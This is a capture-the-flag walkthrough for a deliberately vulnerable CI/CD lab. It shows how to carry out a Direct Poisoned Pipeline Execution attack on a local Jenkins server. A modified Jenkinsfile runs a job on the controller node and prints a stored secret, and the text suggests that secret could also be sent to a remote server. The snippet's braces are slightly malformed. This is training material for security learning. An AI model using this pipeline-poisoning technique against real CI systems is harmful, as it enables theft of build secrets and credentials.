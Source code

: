 Execute the _cheshire-cat_ pipeline on the Jenkins Controller by executing a [Direct-PPE](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422) attack, and get the secret which is stored in the Controller’s file system.



1. On Jenkins, access the Built-In Node (which represents the Controller) in the nodes configuration page, and get its label (“builtin”).

    [http://localhost:8080/computer/(built-in)/](http://localhost:8080/computer/(built-in)/)

2. Clone the _Wonderland/cheshire-cat_ repository.
3. Checkout to a new branch.

    ```shell
    git checkout -b challenge5
    ```


4. In the Jenkinsfile, instruct the pipeline to run on the Controller by specifying its label, and print _flag5_ to the console output (or send it to a remote server).

    ```groovy
    pipeline {
        agent {label 'builtin'}
        environment {
            PROJECT = "sanic"
        }

        stages {
            stage ('Install_Requirements') {
                steps {
                    sh 'cat ~/flag5'
                }
            }
        }
    }

        post { 
            always { 
                cleanWs()
            }
        }
    }
    ```


5. Push the changes to the remote branch, and create a pull request. A pipeline will be triggered automatically.
6. Access the console output of the executed job to get the secret.